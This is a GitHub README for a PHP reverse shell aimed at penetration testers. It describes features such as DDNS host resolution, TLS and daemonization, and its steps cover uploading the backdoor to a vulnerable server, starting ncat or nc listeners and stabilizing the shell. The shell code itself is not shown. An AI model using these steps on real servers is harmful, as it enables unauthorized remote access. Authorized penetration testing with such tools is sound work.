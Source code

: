 ### php-reverse-shell

Yet another php reverse shell for pentesters

### Features

- Compatible with [netcat](https://en.wikipedia.org/wiki/Netcat) and [ncat](https://nmap.org/ncat)
- Host resolution via [DoH](https://en.wikipedia.org/wiki/DNS_over_HTTPS)
  and [DDNS](https://en.wikipedia.org/wiki/Dynamic_DNS)
- Support for [daemonization](https://en.wikipedia.org/wiki/Daemon_(computing))
  and [encryption](https://en.wikipedia.org/wiki/Transport_Layer_Security)
- Semi-automatic [shell stabilization](https://0xffsec.com/handbook/shells/full-tty/)

### Usage

- Register domain on DDNS service https://freemyip.com
- Save link to update IPv4 address (`https://freemyip.com/update?token=my-token&domain=my-domain.freemyip.com`)
- Use link to update IPv4 address
- Change config in [`shell.php`](shell.php) file
- Upload backdoor to vulnerable server
- Create new terminal window or tab
    - Open port from config
    - Start listening on port from config:
        - `ncat -nvlp 1337 --ssl` (with encryption, recommend)
        - `nc -nlvp 1337` (without encryption)
    - Visit `/start.php` on vulnerable server
    - Wait for shell to appear in terminal
    - Press `Ctrl + Z` in terminal
    - Run `stty raw -echo; fg` in terminal and press `Enter`

_NOTE_: to exit from shell use `Ctrl + D` twice
